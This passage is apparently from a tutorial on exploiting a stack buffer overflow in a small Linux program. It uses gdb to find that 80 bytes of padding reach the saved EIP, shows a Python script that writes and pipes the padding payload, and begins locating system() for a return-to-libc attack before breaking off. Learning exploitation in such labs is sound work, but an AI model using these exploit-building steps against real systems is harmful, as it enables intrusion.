 ![gdbeip](/assets/FmPRmXG.png)  
  
Success! now we know that the **EIP** is at **0xbffff7cc** memory address (highlighted in red) and contains the address **0x08048505** (highlighted in green). And, look, it's not that far from our first address. We can check the distance between them with the following command:  
  
`p 0xbffff7cc - 0xbffff77c`  
`(gdb) p 0xbffff7cc - 0xbffff77c`  
`$1 = 80`  
`(gdb)`  
80.  
And if you ask yourself, "How useful is this 80?", This is the amount of **A's** for our overflow to **EIP**. But be careful: this will not cause **EIP** to be overwritten, however, it will be 1 byte to do.   
let's change the python script and put what we've found.  
  
```  
python
    #!/usr/bin/env python
    import os
    import struct
    
    def main():
        padding = 80
        payload = "A" * padding
        MyPayload = open("payload.txt", "w")
        MyPayload.write(payload)
        MyPayload.close()
        os.system("cat payload.txt | CompiledCFileName")
    
    main()
```  
*After execution:*
                                                          
    > python example.py                                                                          
    input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Segmentation Fault   
Okay, nothing much different though, we did get a segmentation fault.   
## Starting with system()  
To find the address of the system function, we need restart our application, reset the breakpoint, enter anything in the input, ex ("AAAA") and when we break, use the command:   
`(gdb) p system`  
This command will return not only basic information about the **system** function, but also its address.  
![infosys](/assets/jhUSEUr.png)  
Awesome, uh? Well, let's change the python script again:  
```  
python
    #!/usr/bin/env python
    import os
    import struct
    
```